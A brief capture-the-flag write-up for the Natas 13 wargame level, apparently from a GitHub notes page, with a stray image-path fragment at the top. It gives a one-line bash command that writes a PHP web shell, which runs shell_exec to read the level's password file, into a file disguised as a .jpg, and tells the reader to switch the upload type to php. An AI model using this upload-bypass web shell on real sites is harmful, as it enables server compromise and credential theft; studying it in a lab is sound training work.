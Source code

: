 ## Natas 13

```bash
echo "<?php echo shell_exec('cat /etc/natas_webpass/natas13'); ?>" > thisIsAImage.jpg
```

![Screenshot](files/Screenshot%202024-06-06%20164733.png)

> Change file type from `jpg` to `php` and hit upload

